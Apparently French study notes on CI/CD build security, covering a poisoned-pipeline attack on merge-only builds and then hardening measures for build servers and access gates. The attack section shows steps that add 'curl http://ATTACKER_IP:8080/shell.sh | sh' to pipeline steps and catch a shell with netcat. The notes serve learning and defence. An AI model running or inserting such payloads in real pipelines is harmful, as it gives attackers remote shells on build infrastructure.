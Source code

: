 

#### attaque niveau build via merge 

* SI un build est en merge only pour "sécurité" en réalité non car :  
   1. on peut toujours faire un fork de ce test de sécu 
   2. puis avec python3 (on fait un serv http `python3 -m http.server 8080`)
   3. et dans le "test" on rajoute `curl http://ATTACKER_IP:8080/shell.sh | sh` dans la partie steps du pipeline

   4. puis tu commit le changement
   5. pour vérifier tu vérifie avec nc -lvp 8081


---

#### **Protection du serveur de build**


Les étapes suivantes peuvent être suivies pour protéger à la fois votre serveur de build et vos agents de build :

* **Configuration des agents de build** : Configurez les agents de build pour qu’ils ne communiquent qu’avec le serveur de build, en évitant toute exposition externe.
* **Réseau privé** : Placez les agents de build dans un réseau privé, sans accès direct à Internet.
* **Pare-feux** : Utilisez des pare-feux pour restreindre les connexions entrantes uniquement au trafic nécessaire lié au serveur de build.
* **VPN** : Utilisez un VPN pour accéder au serveur de build et à ses agents de manière sécurisée depuis des emplacements distants.
* **Authentification par jeton** : Utilisez des jetons d’agent de build pour l’authentification, ajoutant ainsi une couche de sécurité supplémentaire.
* **Clés SSH** : Pour les agents de build basés sur SSH, utilisez des clés SSH sécurisées pour l’authentification.
* **Surveillance continue** : Surveillez régulièrement les activités et les journaux des agents de build pour détecter tout comportement inhabituel.
* **Mises à jour régulières** : Mettez à jour le serveur de build et les agents avec les correctifs de sécurité.
* **Audits de sécurité** : Effectuez des audits de sécurité périodiques pour identifier et corriger les vulnérabilités.
* **Suppression des paramètres par défaut et renforcement de la configuration** : Veillez à renforcer la sécurité de votre serveur de build et à supprimer tous les identifiants par défaut et les configurations faibles.

---

#### Securing the Build Pipeline

**Portes d’accès**

Les *portes d’accès*, également appelées *gates* ou *points de contrôle*, servent de "stages" (étapes) dans un pipeline de développement logiciel. Elles garantissent que le code ne progresse dans le pipeline qu’après avoir satisfait à des critères de qualité et de sécurité prédéfinis. Les portes d’accès sont essentielles pour renforcer le contrôle, l’assurance qualité et la sécurité du processus de développement. C’est bénéfique pour tout le monde.

* **Contrôle renforcé** : Les portes d’accès offrent des points de contrôle dans le pipeline, permettant une progression maîtrisée entre les étapes.
* **Contrôle qualité** : Elles garantissent que le code répond aux normes de qualité définies avant d’avancer.
* **Vérifications de sécurité** : Elles permettent des évaluations de sécurité, comme des analyses de vulnérabilités, avant le déploiement.
